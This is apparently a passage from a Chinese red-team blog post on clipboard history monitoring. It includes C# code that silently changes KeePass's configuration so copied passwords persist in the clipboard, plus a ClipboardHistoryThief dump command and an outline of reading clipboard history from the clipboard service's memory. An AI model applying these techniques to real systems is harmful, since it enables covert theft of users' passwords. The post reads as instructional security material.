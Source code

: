 ![image-20240621123952717](E:\每日一文\md\2024\红队\内网小技巧\公众号\内网安全工具揭秘（一）：剪贴板历史监控.assets\image-20240621123952717.png)

![image-20240621124255157](E:\每日一文\md\2024\红队\内网小技巧\内网安全小工具大揭秘（一）.assets\image-20240621124255157.png)

![image-20240621124122305](E:\每日一文\md\2024\红队\内网小技巧\公众号\内网安全工具揭秘（一）：剪贴板历史监控.assets\image-20240621124122305.png)



##### 修改配置文件前后对比-修改后：

1：复制密码:

![image-20240621122649264](E:\每日一文\md\2024\红队\内网小技巧\公众号\内网安全工具揭秘（一）：剪贴板历史监控.assets\image-20240621122649264.png)

2：发现密码长久存在于剪贴板中

```
5tJ1vDYXmzag0mDSdxF5
```

![image-20240621122722047](E:\每日一文\md\2024\红队\内网小技巧\公众号\内网安全工具揭秘（一）：剪贴板历史监控.assets\image-20240621122722047.png)

##### 关键源码：

```
                string configPath = Environment.GetEnvironmentVariable("USERPROFILE") + "\\AppData\\Roaming\\KeePass\\KeePass.config.xml";
                XDocument doc = XDocument.Load(configPath);
                XElement sec = doc.Element("Configuration").Element("Security");
                sec.Add(new XElement("ClipboardNoPersist", "false"));
                doc.Save(configPath);
                Console.WriteLine("[+] KeePass configuration file modified successfully!");
```

### 3：工具二 ClipboardHistoryThief

它通过检查进程内存并利用模式搜索来识别存储在堆中的剪贴板历史记录数据，从而允许从进程中提取所有可用的剪贴板历史记录数据来实现这一点。从进程中提取所有可用的剪贴板历史数据。 

[github说超越25个限制，但是实操中还是没超过，待研究]

```
>ClipboardHistoryThief.exe dump test.txt
```

![image-20240621101910599](E:\每日一文\md\2024\红队\内网小技巧\公众号\内网安全工具揭秘（一）：剪贴板历史监控.assets\image-20240621101910599.png)

##### 通过 Windows API 操作进程和内存

```
获取剪贴板服务进程ID:
DWORD clipboardSvcPID = getClipboardSvcProcessID();

打开目标进程，获取进程句柄:
HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, clipboardSvcPID);

获取运行该服务的用户名:
getUserFromProcess(hProcess, &pUser)

枚举目标进程的模块，查找并获取 windows.applicationmodel.datatransfer.dll 模块的句柄：
略去代码

遍历目标进程的内存区域，查找符合条件的内存块。对于每个符合条件的内存块，读取其内容并检查是否包含特定的剪贴板数据。如果找到匹配的数据，将其转换为UTF-8格式并输出到控制台或文件：
略去代码
```
